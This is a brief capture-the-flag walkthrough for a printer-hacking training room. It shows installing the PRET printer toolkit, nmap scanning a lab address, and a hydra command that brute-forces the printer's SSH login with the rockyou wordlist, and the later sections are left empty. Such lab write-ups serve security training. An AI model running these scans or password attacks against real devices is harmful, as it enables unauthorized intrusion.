 # [Printer Hacking 101](https://tryhackme.com/room/printerhacking101)

> Learn about (and get hands on with) printer hacking and understand the basics of IPP.

## Prepare

install this toolkit to exploit local network printer

```
git clone https://github.com/RUB-NDS/PRET && cd PRET
python2 -m pip install colorama pysnmP
```

automatic printer discovery

```
python pret.py
```

## Scanning

scan the machine

```
nmap -sS -T4 10.10.103.120
```

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/695be9e7-ea0c-4688-af66-96d885f85631)

i found 2 services are ipp and ssh

## HTTP

CUPS open source print server uses IPP protocol for print management

![image](https://github.com/lucthienphong1120/TryHackMe-CTF/assets/90561566/ceb437d5-2046-4d3a-b664-2e1dbef73359)

## Exploitation

using hydra to crack the ssh password of printer

```
hydra -l printer -P /usr/share/wordlists/rockyou.txt ssh://10.10.103.120
```


.

| Flag | user.txt |
| --- | --- |
| Answer | <flag> |

## Privilege Escalation

.

| Flag | root.txt |
| --- | --- |
| Answer | <flag> |
